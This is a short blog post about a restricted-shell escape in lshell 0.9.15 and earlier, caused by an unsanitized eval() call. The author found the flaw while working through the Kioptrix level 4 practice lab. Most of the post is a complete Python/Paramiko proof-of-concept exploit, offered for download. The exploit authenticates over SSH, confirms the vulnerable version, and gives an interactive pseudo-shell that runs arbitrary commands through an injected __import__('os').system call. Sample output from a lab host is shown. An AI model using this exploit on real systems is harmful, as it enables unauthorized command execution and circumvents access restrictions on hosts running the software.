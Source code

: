 ```yaml
---
categories:
- vulnerability
- pathing
- lshell
comments: false
date: "2012-12-30T22:43:42Z"
title: lshell 0.9.15 pathing vulnerability
---
```


While working through Kioptrix level 4, I stumbled into [lshell](https://github.com/ghantoos/lshell), a limited shell environment developed in Python.  I don't want to walk through the vulnerability again, but at a high level versions <= 0.9.15 are vulnerable to an unsanitized eval() call with user supplied input.  I couldn't find a working PoC, so I wrote one. 

This will verify the install and spawn a pseudo-shell for running commands on the remote host.  While it may be more beneficial to just log in and run the exploit to spawn /bin/bash, this is a nice hacky way to quickly enumerate and tool around on the back end:

```
root@bt:~/kioptrix_l4# python lshell_remote.py john ****** 192.168.1.39
[!] .............................
[!] lshell <= 0.9.15 remote shell.
[!] note: you can also ssh in and execute '/bin/bash'
[!] .............................
[!] Checking host 192.168.1.39...
[+] vulnerable lshell found, preparing pseudo-shell...
$ id
uid=1001(john) gid=1001(john) groups=115(admin),1001(john)
$ ls -l
total 48
-rwxr-xr-x 1 john john  1544 2009-01-20 19:51 install.sh
-rw-r--r-- 1 john john  7715 2009-01-20 19:06 lib_mysqludf_sys.c
-rw-r--r-- 1 john john  9934 2009-01-21 19:42 lib_mysqludf_sys.html
-rwxr-xr-x 1 john john 12896 2009-01-19 04:11 lib_mysqludf_sys.so
-rw-r--r-- 1 john john  1647 2009-01-21 19:43 lib_mysqludf_sys.sql
-rw-r--r-- 1 john john   122 2009-01-19 04:11 Makefile
$ ls -l | grep 'Makefile'
-rw-r--r-- 1 john john   122 2009-01-19 04:11 Makefile
$ exit
root@bt:~/kioptrix_l4#
```

You can run pretty much everything except for binary files; this is because of the shell environment changing. I wasn't able to figure out a clean way to attach a TTY to the stdin/stdout/stderr, so if anyone knows of a way to do this with Paramiko, drop me a message.  I'll take any bug reports as well.  This requires Paramiko libraries to be installed; tested with Python 2.7.x.

[Pastebin](http://pastebin.com/r7LCdeTC) link for download and code:

```
import paramiko
import traceback
from time import sleep

#
# Exploit lshell pathing vulnerability in <= 0.9.15.
# Runs commands on the remote system.
# @dronesec
#

if len(sys.argv) < 4:
    print '%s: [USER] [PW] [IP] {opt: port}'%(sys.argv[0])
    sys.exit(1)

try:
    print '[!] .............................'
    print '[!] lshell <= 0.9.15 remote shell.'
    print '[!] note: you can also ssh in and execute \'/bin/bash\''
    print '[!] .............................'
    print '[!] Checking host %s...'%(sys.argv[3])
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    if len(sys.argv) == 5:
        ssh.connect(sys.argv[3],port=int(sys.argv[4]),username=sys.argv[1],password=sys.argv[2])
    else:
        ssh.connect(sys.argv[3],username=sys.argv[1],password=sys.argv[2])


    # verify lshell 
    channel = ssh.invoke_shell()
    while not channel.recv_ready(): sleep(1)
    ret = channel.recv(2048)

    channel.send('help help\n')
    while not channel.recv_ready(): sleep(1)
    ret = channel.recv(2048)

    if not 'lshell' in ret:
        if 'forbidden' in ret:
            print '[-] Looks like we can\'t execute SSH commands'
        else:
            print '[-] Environment is not lshell'
        sys.exit(1)

    # verify vulnerable version
    channel.send('sudo\n')
    while not channel.recv_ready(): sleep(1)
    ret = channel.recv(2048)
    if not 'Traceback' in ret:
        print '[-] lshell version not vulnerable.'
        sys.exit(1)
    channel.close()
    ssh.close()

    # exec shell
    print '[+] vulnerable lshell found, preparing pseudo-shell...'
    if len(sys.argv) == 5:
        ssh.connect(sys.argv[3],port=int(sys.argv[4]),username=sys.argv[1],password=sys.argv[2])
    else:
        ssh.connect(sys.argv[3],username=sys.argv[1],password=sys.argv[2])

    while True:
        cmd = raw_input('$ ')

        # breaks paramiko
        if cmd[0] is '/':
            print '[!] Running binaries won\'t work!'
            continue

        cmd = cmd.replace("'", r"\'")
        cmd = 'echo __import__(\'os\').system(\'%s\')'%(cmd.replace(' ',r'\t'))
        if len(cmd) > 1:
            if 'quit' in cmd or 'exit' in cmd:
                break
            (stdin,stdout,stderr) = ssh.exec_command(cmd)
        out = stdout.read()
        print out.strip()
except paramiko.AuthenticationException:
    print '[-] Authentication to %s failed.'%sys.argv[3]
except Exception, e:
    print '[-] Error: ', e
    print type(e)
    traceback.print_exc(file=sys.stdout)
finally:
    channel.close()
    ssh.close()
```
